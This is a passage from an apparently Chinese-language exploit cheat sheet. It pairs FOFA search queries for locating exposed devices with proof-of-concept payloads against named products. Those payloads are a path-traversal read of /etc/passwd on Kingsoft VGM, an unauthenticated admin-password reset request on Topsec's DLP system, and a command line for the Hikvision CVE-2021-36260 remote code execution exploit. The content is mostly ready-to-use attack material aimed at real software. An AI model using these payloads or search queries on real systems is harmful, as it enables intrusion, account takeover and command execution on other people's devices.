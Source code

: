 #### 金山 VGM防毒墙 

FOFA：

```
"金山VGM"
```

##### downFile.php 任意文件读取

poc：

```
/downFile.php?filename=../../../../etc/passwd
```

### 0x02 数据防泄漏系统

#### 天融信数据防泄漏系统

##### 越权修改管理员密码

无需登录权限,由于修改密码处未校验原密码,且 /?module=auth_user&action=mod_edit_pwd 接口未授权访问,造成直接修改任意用户密码。 默认 superman 账户 uid 为 1。

```
POST /?module=auth_user&action=mod_edit_pwd

Cookie: username=superman;
uid=1&pd=Newpasswd&mod_pwd=1&dlp_perm=1
```

## 四、其他

### 0x01 网络摄像机

#### Hikvision DS/IDS/IPC 等设备

FOFA：

```
"671-1e0-587ec4a1"
```

##### 远程命令执行 CVE-2021-36260 ✅

```
python CVE-2021-36260.py --rhost 127.0.0.1 --rport 8081 --cmd "ls"
```

### 0x02 综合管理平台

#### 大华 智慧园区综合管理平台 

FOFA：

```
app="dahua-智慧园区综合管理平台"
```
